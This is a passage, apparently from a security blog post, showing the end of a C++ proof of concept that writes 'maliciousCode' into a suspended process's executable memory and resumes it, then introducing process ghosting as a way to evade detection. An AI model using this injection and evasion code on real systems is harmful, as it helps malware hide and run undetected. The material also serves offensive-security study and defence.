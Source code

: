 ```
    PVOID baseAddress = VirtualAllocEx(pi.hProcess, NULL, strlen(maliciousCode), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    if (!baseAddress) {

        std::cerr << "Failed to allocate memory in target process." << std::endl;

        TerminateProcess(pi.hProcess, 0);

        CloseHandle(pi.hThread);

        CloseHandle(pi.hProcess);

        CloseHandle(hSection);

        return 1;

    }

    WriteProcessMemory(pi.hProcess, baseAddress, maliciousCode, strlen(maliciousCode), NULL);

    ResumeThread(pi.hThread);

    // Cleanup

    CloseHandle(pi.hThread);

    CloseHandle(pi.hProcess);

    CloseHandle(hSection);

    return 0;

}
```

This is a basic PoC and may require additional modifications to work in specific environments. The code uses some undocumented functions (NtCreateSection), so you’ll need to provide the appropriate function prototypes and link against the ntdll.lib library.

Also **Process ghosting**, introduced in June 2021 by Gabriel Landau, is a novel technique in the realm of process-image modification. It capitalizes on a Windows oversight: while Windows prevents the deletion of files after they’re mapped into an image section, it doesn’t verify the existence of an associated section during the deletion process. This allows for a unique evasion mechanism where the file is deleted, but its image section remains.

![process-image modification structure](https://hadess.io/wp-content/uploads/2023/09/image-6-1024x430.png)

![process-image modification mindmap](https://hadess.io/wp-content/uploads/2023/09/image-7-1024x664.png)

**Core Mechanism:**

